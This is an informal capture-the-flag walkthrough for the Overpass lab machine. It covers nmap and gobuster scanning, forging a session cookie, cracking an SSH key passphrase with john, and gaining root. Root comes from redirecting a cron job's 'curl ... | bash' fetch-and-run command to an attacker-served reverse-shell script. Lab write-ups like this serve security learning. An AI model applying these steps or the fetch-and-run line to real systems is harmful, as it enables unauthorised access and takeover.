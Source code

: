 TOOLS USED:

NMAP
GOBUSTER
SSH JHON 
LINPEAS


THE MACHINE IS OVERPASS


For firts thing we run the tool name Nmap: 

	nmap -p- IPMACHINE

we foud two ports open wich there are:

	ssh 22

	http 80


we enter on the website and run the gobaster 

	└─$ gobuster dir -u http://IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt


found /admin and let's get into it
in the source there is a file login.js 
we found where it generate a cookie name 'SessionToken'
generate a random cookie called 'SessionToken' and refresh the page 
inside of there is key rsa for access on ssh and the username 'james'
for the key you need a anther key that we will brutforce using the tool jhon


whit  ss2jhon.py generate the hash of the key access 
	
	ss2jhon.py id_rsa > id_rsa.jon 

now whit jhon and the wordlist rockyou.txt bruteforce 

	john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john

the password is james13
now enter on the ssh 

	ssh -i rsakey james@IP  

insert the pasphrase for key 'rsakey'

	james13

you are in the machine whit james user's 
now there is the first flag in user.txt



Now the need  do escalate our privilage.For do that , we use another tool called linepas.
run this on the machine for extract the information for possible privialge escalation. 


The vuln is on file in the cromtab 

	root curl overpass.thm/downloads/src/buildscript.sh | bash

and thew file ect/hosts is editable by user

we edit the hosts and insert your ip machine instead of the overpass.thm for send a reverse shell 

in our terminal create the file buildscript.sh whit path and insert the reverse shell 

open a client for the reverse and server to send this buildscript

now reverse shell worked

we are root and there is the last flag in root.txt









	


 

